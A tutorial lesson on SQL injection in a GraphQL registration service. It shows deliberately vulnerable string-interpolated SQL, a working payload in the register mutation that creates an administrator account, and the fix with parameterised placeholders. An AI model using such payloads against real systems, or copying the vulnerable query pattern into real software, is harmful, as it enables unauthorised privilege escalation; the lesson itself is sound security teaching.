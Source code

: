```yaml
---
title: 'Combat SQL Injections'
description: 'Delve into the mechanisms of SQL injections—how to exploit them and the strategies for preventing this enduring vulnerability.'
category: 'Injection'
difficulty: 'easy'
owasp: 'API8:2019'
authors: ['escape']
---
```


A SQL injection is a common attack vector that allows an attacker to execute arbitrary SQL queries on a database. This can be used to steal data, modify data, or even execute arbitrary code on the database server. This lesson focuses on a privilege escalation attack leveraging a SQL injection.

This lesson comes with a GraphQL server offering a login and registration service. To start the server, run the following command:

- Install the dependencies with `npm install`
- Start the server with `npm start`. The server will start in development mode: it will restart automatically when you make changes to the code and the database will be reset at each restart.

A GraphQL IDE should open, allowing you to query the server.

## The vulnerability

The server offers a query, `users`, allowing to retrieve the list of users, and two mutations, `login` and `register`, allowing to authenticate and register new users.

Try creating an account with the following credentials:

```graphql
mutation {
  register(email: "user@example.com", password: "password1")
}
```

You can see that the user has been created by querying the list of users:

```graphql
query {
  users {
    email
    admin
  }
}
```

And you can authenticate with the following mutation:

```graphql
mutation {
  login(email: "user@example.com", password: "password1") {
    id
    email
    admin
  }
}
```

Our goal is to exploit the `register` mutation to create an administrator account. The code behind the `register` mutation is the following:

```js
db.run(
  `INSERT INTO users (email, password, admin) VALUES ('${email}', '${password}', 0)`,
  (err) => {
    // ...
  }
);
```

If you look closely, you can see that the email and password are directly injected into the SQL query. **This is a SQL injection vulnerability.** We can exploit it by including a string terminator `'` in the email, and then arbitrary SQL. For instance, registering with the following credentials:

```graphql
mutation {
  register(
    #                      v We include a string terminator in the email
    email: "eve@example.com', '$argon2id$v=19$m=1024,t=1,p=1$Q3FMVVlaNlNjc1dIZWlQcg$p8om9rk2ef3+uzO8Hg0Gwhnx1+1vIll2qDiiWBACrUw', 1); --"
    #                          ^ We provide a password hash compatible with the server                                            ^
    #                                                                                                  We set the admin flag to 1 |
    password: "password1"
  )
}
```

The resulting query will be: (with added newlines for readability)

```sql
INSERT INTO users (email, password, admin)
VALUES (
  'eve@example.com',
  '$argon2id$v=19$m=1024,t=1,p=1$Q3FMVVlaNlNjc1dIZWlQcg$p8om9rk2ef3+uzO8Hg0Gwhnx1+1vIll2qDiiWBACrUw',
  1
); --', '$argon2id$v=19$m=1024,t=1,p=1$T1p2cTlBa0lmVg$kaoMvhUXvLxKXisdaky0kGZU2hoKD5tncvkKQkANagU', 0)
```

You can see our malicious payload completely overriding the initial query. The `--` at the end of the query is a comment, allowing the resulting SQL to be valid. The comment contains the rest of the query, `', '${password}', 0)` in the JavaScript code above.

We can query the list of users again to see if our malicious account has been created:

```graphql
query {
  users {
    email
    admin
  }
}
```

It worked! We can now authenticate with our new account:

```graphql
mutation {
  login(email: "eve@example.com", password: "password1") {
    id
    email
    admin
  }
}
```

## Preventing SQL injections

There are many ways to prevent SQL injections. Most modern ORMs and database libraries will automatically escape the values you provide to prevent SQL injections. We use [sqlite3](https://www.npmjs.com/package/sqlite3) in this lesson, and it does feature an escaping mechanism: we use the `?` placeholder to escape the values we provide to the query, and provide the values separately as an array.

Replace the database functions in `src/database.js` with the following:

```js
export const createUser = async (email, password) =>
  new Promise((resolve, reject) => {
    db.run(
      // Use the ? placeholder to escape the values
      'INSERT INTO users (email, password, admin) VALUES (?, ?, 0)',
      // Provide the values as an array
      [email, password],
      (err) => {
        if (err) reject(err);
        else resolve(undefined);
      }
    );
  });

export const getUserByEmail = async (email) =>
  new Promise((resolve, reject) => {
    // Same here
    db.all('SELECT * FROM users WHERE email = ?', [email], (err, rows) => {
      if (err) reject(err);
      else resolve(rows[0]);
    });
  });
```

You can retry the attack, but this time it won't work: **our server is now safe from SQL injections!** It however still lacks proper validation mechanisms for the email, allowing us to register with an invalid email address, but this is the subject of another lesson.
